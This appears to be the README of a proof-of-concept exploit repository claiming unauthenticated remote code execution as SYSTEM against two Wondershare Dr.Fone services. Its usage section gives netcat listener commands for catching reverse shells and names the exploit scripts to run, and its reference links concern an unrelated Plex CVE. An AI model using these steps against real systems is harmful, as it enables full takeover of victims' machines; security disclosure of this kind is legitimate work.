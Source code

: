 # WonderShell -  CVE

POC example to exploit Wondershare Dr.Fone[https://drfone.wondershare.com/] .

## Discovered by
Netanel Cohen, and Tomer Peled a Security Researchers from BugSec.

## Details
Dr.Fone is a phone tool-kit develop by wondershare , pron to RCE .
As unauthenticated user we manage to execute remote code as SYSTEM user.

Two services are vulerable:
  InstallAssistService.exe
  ElevationService.exe

Tested on Dr.Fone 
## Usage
Change ip and port and execute.
```
stty raw -echo; (stty size; cat) | nc -lvnp 1338
./ElevationServiceRCE.py
```

```
nc -lvnp 1337
./InstallAssistRCE.py
```


## Publications
https://ir-on.io/2021/12/02/local-privilege-plexcalation/

https://forums.plex.tv/t/security-regarding-cve-2021-42835/761510


